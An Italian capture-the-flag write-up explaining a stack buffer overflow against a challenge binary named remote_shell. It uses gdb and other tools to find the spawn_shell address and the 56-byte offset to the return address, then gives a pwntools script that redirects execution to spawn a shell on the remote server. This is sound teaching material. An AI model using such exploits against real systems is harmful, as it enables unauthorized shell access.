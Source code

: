 # Remote Shell

Vogliamo sovrascrivere l'indirizzo di ritorno di `main` con l'indirizzo di `spawn_shell`. Ci servono le seguenti informazioni:

- Indirizzo di `spawn_shell`;
- Distanza fra inizio del buffer e indirizzo di ritorno.

Poi possiamo procedere con l'exploit.

## Indirizzo di `spawn_shell`

Apriamo Remote Shell nel debugger `gdb` e printiamo l'indirizzo di `spawn_shell`:

```
$ gdb ./remote_shell 
[...]
(gdb) p/x &spawn_shell
$1 = 0x40076a
```

Dove `p` è un'abbreviazione del comando `print`, mentre `x` indica di stampare l'indirizzo in esadecimale (perchè è più comodo). Quindi l'indirizzo è `0x40076a`.

Ci sono anche altri modi:

```
$ nm remote_shell | grep spawn_shell
000000000040076a T spawn_shell
$ readelf -s remote_shell | grep spawn_shell
    52: 000000000040076a    51 FUNC    GLOBAL DEFAULT   13 spawn_shell
$ objdump -t remote_shell| grep spawn_shell
000000000040076a g     F .text  0000000000000033              spawn_shell
```

## Offset del retaddr

Un modo "grezzo" è provare varie lunghezze di overflow finchè non si ottiene un crash (perchè si è corrotto l'indirizzo di ritorno con un indirizzo non valido).
Un metodo più raffinato è quello di trovare (1) l'indirizzo assoluto del buffer e (2) l'indirizzo assoluto dell'indirizzo di ritorno. Poi, prendendo la differenza, abbiamo la distanza fra i due.
Apriamo il programma con `gdb` e iniziamo settando un breakpoint su `main` e lanciando il programma (`b` sta per `break`, `r` sta per `run`):

```
$ REMOTE_SHELL_PASSWORD=test gdb ./remote_shell
[...]
(gdb) b main
Breakpoint 1 at 0x4007a1
(gdb) r
Starting program: /home/andrea/spritz_playground/remote_shell/remote_shell 

Breakpoint 1, 0x00000000004007a1 in main ()
```

Ora siamo fermi all'inizio di `main`. Dopo che abbiamo inserito la password verrà chiamato `strcmp` per confrontarla con la vera password, e `buffer` sarà passato come primo argomento a `strcmp`, quindi possiamo osservare il suo indirizzo assoluto. Impostiamo un breakpoint su `strcmp` e riprendiamo il programma (`c` per `continue`):

```
(gdb) b strcmp
Breakpoint 2 at gnu-indirect-function resolver at 0x7ffff7a97540: file ../sysdeps/x86_64/multiarch/strcmp.S, line 87.
(gdb) c
Continuing.
Enter password: asd         

Breakpoint 2, __strcmp_sse2_unaligned () at ../sysdeps/x86_64/multiarch/strcmp-sse2-unaligned.S:24
24      movl    %edi, %eax
```

Sul Linux x86 64-bit, il primo argomento a una funzione è passato nel registro `rdi`, quindi stampandolo possiamo ottenere l'indirizzo di `buffer`:

```
(gdb) p/x $rdi
$1 = 0x7fffffffdc60
```

Ora dobbiamo trovare l'indirizzo del retaddr. Ci sono due registri che controllano lo stack: `rsp` (stack pointer), che punta sempre alla cima dello stack, e `rbp` (base pointer), che punta al saved base pointer. Non sappiamo la dimensione dello stack frame, quindi la cima dello stack ci dà poche informazioni. Invece sappiamo che il saved base pointer (anche se non ci interessa cosa sia) è sempre collocato immediatamente prima del retaddr, ed è lungo 8 byte (su 64-bit). Quindi `rbp+8` sarà l'indirizzo del retaddr:

```
(gdb) p/x $rbp+8
$2 = 0x7fffffffdc98
```

Ora basta prendere la differenza (con una calcolatrice o direttamente da `gdb`):

```
(gdb) p/x ($rbp+8)-$rdi
$3 = 0x38
```

Ottimo, vuol dire che ci servono 0x38 (56) byte per raggiungere l'indirizzo di ritorno.

Quest'informazione si può anche ottenere tramite reverse engineering del binario, per esempio:

```
(gdb) disass main
Dump of assembler code for function main:
   [...]
   0x00000000004007fe <+97>:    lea    -0x30(%rbp),%rax
   0x0000000000400802 <+101>:   mov    %rdx,%rsi
   0x0000000000400805 <+104>:   mov    %rax,%rdi
   0x0000000000400808 <+107>:   callq  0x400620 <strcmp@plt>
   [...]
```

Quel `lea -0x30(%rbp), %rax` indica che il buffer è a `rbp-0x30`, cioè ci sono `0x38` byte tra buffer e retaddr. Molti strumenti di reversing (Hex-Rays IDA, Binary Ninja, ...) analizzano lo stack frame e ne mostrano la struttura, quindi si vede l'offset a colpo d'occhio. Altre possibilità sono l'uso di breakpoint sull'istruzione `ret` o la derivazione dell'offset tramite pattern ciclici (De Bruijin). Il metodo con `gdb` illustrato inizialmente rimane abbastanza semplice soprattutto per chi non mastica assembly.

## Exploit

Ora possiamo costruire il nostro payload:

- 56 byte di spaz(i|z)atura;
- 8 byte di indirizzo di ritorno, cioè l'indirizzo di `spawn_shell` (0x40076a) codificato come un intero little-endian a 64 bit: `6a 07 40 00 00 00 00 00`.

Per convertire un intero Python in una stringa di byte codificati possiamo usare le funzioni `p*` di pwntools, in questo caso `p64` (perchè vogliamo codificare un intero a 64bit), anzichè farlo a mano.

L'exploit quindi è qualcosa del genere:

```
from pwn import *

context(os='linux', arch='x86_64')

p = process('./remote_shell', env={'REMOTE_SHELL_PASSWORD': 'test'})

p.recvuntil('Enter password: ')

buf  = 'A'*56
buf += p64(0x40076a)

p.sendline(buf)
p.interactive()
```

Ora basta rimpiazzare `process` con `remote` per lanciarlo contro il server remoto e ottenere una shell, da cui potete leggere la flag. Ovviamente `env` non serve più in remoto (e non avrebbe alcun senso).
